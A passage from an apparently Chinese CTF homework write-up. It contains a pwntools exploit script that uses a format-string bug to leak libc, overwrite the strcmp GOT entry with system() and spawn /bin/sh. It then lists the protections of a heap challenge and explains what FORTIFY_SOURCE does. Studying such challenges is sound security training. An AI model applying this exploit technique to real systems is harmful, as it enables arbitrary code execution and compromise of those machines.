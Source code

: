 ```python
payload += b"%15$n"
payload += "%{}c".format(0x804 - 0x24).encode()
payload += b"%16$hn"
payload += "%{}c".format(0x88e9 - 0x804).encode()
payload += b"%17$hn"
payload += b"_"
payload += b"%18$s"

p.sendline(payload)
p.recvuntil(b"_")
strcmp_addr = u32(p.recv(4))
log.info("strcmp_addr=>{:x}".format(strcmp_addr))
libc_addr = strcmp_addr - libc.sym['__strcmp_sse4_2']
log.info("libc_addr=>{:x}".format(libc_addr))
system_addr = libc_addr + libc.sym['system']
log.info("system_addr=>{:x}".format(system_addr))

payload = b"bb"
payload += p32(elf.got['strcmp'] + 2)
payload += p32(elf.got['strcmp'])
payload += "%{}c".format((system_addr & 0xffff) - 0x1c).encode()
payload += b"%16$hn"
payload += "%{}c".format((system_addr >> 16) - (system_addr & 0xffff)).encode()
payload += b"%15$hn"

p.sendline(payload)
log.info("puts_got=>{:x}".format(elf.got['puts']))
log.info("strcmp_got=>{:x}".format(elf.got['strcmp']))
p.sendline("/bin/sh\x00")
p.interactive()

```

## [pwn3](hw1/pwn3)

菜单堆，乍看貌似没那么基础，不过做完之后感觉确实也还是蛮基础。

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

64位，保护全开。

- Full RELRO，got表没法写。
- PIE，got和plt在哪都不知道。
- NX，Canary开启。
- FORTIFY，之前没见过，网上查了一下，大致功能如下：FORTIFY_SOURCE是GCC和GLIBC安全功能，它尝试检测某些类型的缓冲区溢出。默认在大多数Linux平台上启用。使用FORTIFY_SOURCE选项时，如果编译器可以推断出目标缓冲区的大小，则编译器将插入代码以调用不安全函数的“更安全”变体。不安全功能包括memcpy，mempcpy，memmove，memset，stpcpy，strcpy，strncpy，strcat，strncat，sprintf，snprintf，vsprintf，vsnprintf和gets。
